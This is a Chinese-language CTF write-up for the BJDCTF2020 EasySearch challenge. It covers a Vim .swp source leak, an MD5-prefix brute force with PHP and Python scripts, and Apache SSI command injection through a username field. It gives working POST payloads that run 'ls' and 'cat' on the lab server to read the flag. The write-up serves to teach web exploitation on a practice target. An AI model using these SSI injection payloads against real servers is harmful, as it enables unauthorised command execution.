






# BJDCTF2020-EasySearch1

一进来发现是这样一个页面。



尝试sql注入，发现没反应，用dirsearch扫一下目录发现是swp泄露

访问url/index.php.swp

发现源码，开始代码审计

```
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
 
    // 设置响应的Content-Type头部信息为text/html，并指定字符编码为utf-8
    header("Content-Type: text/html;charset=utf-8");
 
    //检查用户是否提交了表单且username字段不为空
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        
        // 验证用户密码是否匹配管理员密码
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>"; // 输出欢迎消息
            // 创建一个以生成的哈希值为文件名的.shtml文件
            $file_shtml = "public/".get_hash().".shtml";
            // 打开文件用于写入，如果打开失败则输出错误信息并终止脚本执行
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***'; // 组装要写入文件的内容
            // 将内容写入文件
            fwrite($shtml,$text);
            // 关闭文件
            fclose($shtml);
            ***
			echo "[!] Header  error ..."; // 输出错误消息
        } else {
            echo "<script>alert('[!] Failed')</script>"; // 输出验证失败消息
        }
    } else {
        // 如果用户名为空，则执行此部分逻辑
		***
    }
	***
?>
```

意思就是他会检查传入的password的值，如果password的md5值的前6位等于"6d0bc1"那就就会执行命令将输入的username写入到一个随机数生成的shtml文件中，并输入header error 的错误信息。

所以我们首先要做的就是要使password符合要求，可以用这两个脚本来找出符合要求的password.

**php**

```
<?php

$admin = '6d0bc1';

for($i=0;$i<=10000000000000;$i++)
{
    if(substr(md5($i),0,6)===$admin)
    {
        echo $i.PHP_EOL;
    }
}
```

**python**

```
from hashlib import md5
 
for i in range(10000000):
    if md5(str(i).encode('utf-8')).hexdigest()[:6] == '6d0bc1':
        print(i)
```

得到很多结果，随便用一个都行



绕过md5后，我们继续分析~

绕过md5后，他将我们传入的username写入到了shtml文件里面.

意思就是 username是个注入点，我们可以控制username的内容来实现远程代码执行漏洞.

而username的格式是`<!--#exec cmd=”id” -->.`

---

那么让我们开始构造payload，查看一下目录下的文件

```
http://eaa2ba87-d2ea-4326-9975-cd0555e9672c.node5.buuoj.cn:81/index.php

POST：
username=<!--#exec cmd="ls ../"-->&password=2020666
```

这里显示[!] Header error .



按F12在网络中找到index.php的标头



发现了我们写入的shtml文件的位置，去访问一下. 



可以看到flag，文件，重新写一个命令，来读取flag

```
http://eaa2ba87-d2ea-4326-9975-cd0555e9672c.node5.buuoj.cn:81/index.php

POST：
username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"-->&password=2020666
```

拿到flag



---

## 知识点

### swp泄露

```
SWP文件泄露漏洞是指在使用 Vim编辑器 编辑一个文件时，Vim会在同一目录下创建一个以".swp"结尾的临时文件来保存编辑过程中的变化，如果在编辑过程中Vim进程被意外终止或者用户没有正确地退出Vim，那么这个临时文件可能会被留下来，如果攻击者能够访问这个临时文件就可以获得原始文件的敏感信息，从而导致信息泄露，需要注意的是不同的操作失败次数将会导致产生不同后缀的交互文件，例如:index.php第一次产生的交换文件名为.index.php.swp，再次意外退出后将会产生名为.index.php.swo的交换文件，第三次产生的交换文件则为.index.php.swn 
```

---

### md5碰撞

有时候我们可以通过爆破数字的md5值来实现md5碰撞

比如：

```
from hashlib import md5
 
for i in range(10000000):
    if md5(str(i).encode('utf-8')).hexdigest()[:6] == '6d0bc1':
        print(i)
```

---

### Apache SSI 远程命令执行漏洞

[详解](https://blog.csdn.net/qq_45521281/article/details/107576959)

知识点：

```
SSI 服务器端包含
SSI（server-side includes）能帮我们实现什么功能：
SSI提供了一种对现有HTML文档增加动态内容的方法，即在html中加入动态内容。

SSI是嵌入HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。

从技术角度上来说，SSI就是在HTML文件中，可以通过注释行调用的命令或指针，即允许通过在HTML页面注入脚本或远程执行任意命令。

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用<!--#exec cmd="ls /" -->语法执行任意命令。

Apache SSI 远程命令执行漏洞
当目标服务器开启了SSI与CGI支持，我们就可以上传shtml，利用<!--#exec cmd="ls /" -->语法来执行命令。

使用SSI(Server Side Include)的html文件扩展名，SSI（Server Side Include)，通常称为"服务器端嵌入"或者叫"服务器端包含"，是一种类似于ASP的基于服务器的网页制作技术。默认扩展名是 .stm、.shtm 和 .shtml。
```


